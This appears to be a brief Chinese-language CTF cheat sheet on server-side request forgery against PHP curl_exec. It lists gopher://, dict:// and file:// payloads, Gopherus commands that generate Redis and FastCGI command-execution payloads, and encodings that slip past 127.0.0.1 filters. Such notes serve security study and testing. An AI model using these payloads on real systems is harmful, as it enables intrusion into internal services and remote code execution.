 涉及函数

```php
curl_exec() curl_exec函数⽤于执⾏指定的cURL会话。
```

## 涉及协议

| Protocol       | Details                                     | 3                       |
| -------------- | ------------------------------------------- | ----------------------- |
| file://        |
| gopher://      | `gopher://<host>:<port>/<gopher-path>`      |
| dict://        | dict://127.0.0.1:6379 //探测 redis 是否存活 |
| (仅 java) url: | `url?url:=file:/flag%23.html`               | file 和 netdoc 都可以读 |

## gopher

[gopher 协议的利用](https://mp.weixin.qq.com/s/lVzMSXn42SjTPb5EnY8NgA)

如果 redis 有验证用 `gophper-redis-auth.py`

```sh
python2 gopherus.py --exploit fastcgi
参数1： /var/www/html/index.php
参数2cmd: ls
python2 gopherus.py --exploit redis
参数1： php
参数2cmd: ls
```

- 生成的 payload 再次 url 编码,
- encode all special chars (Cyberchef) 再使用

## 127.0.0.1 绕过

```bash
url=http://xxx@127.0.0.1
1②7.0.0.1
127。 0。 0。 1
127.1
0177.0.0.1 //⼋进制
0x7f.0.0.1 //⼗六进制
2130706433 //⼗进制
url=http://0/flag.php
0.0.0.0
```

# Article

[实战 | 利用 SSRF 渗透内网主机-下](https://mp.weixin.qq.com/s/oq7IC6Av4_fY7HBxH-8p0Q)
[实战 | 利用 SSRF 渗透内网主机-中](https://mp.weixin.qq.com/s/bEhNuMJpI5y9fj5RGzYhXA)
[实战 | 利用 SSRF 渗透内网主机-上](https://mp.weixin.qq.com/s/zmOLO3ilJdSl02s6aWLpXw)

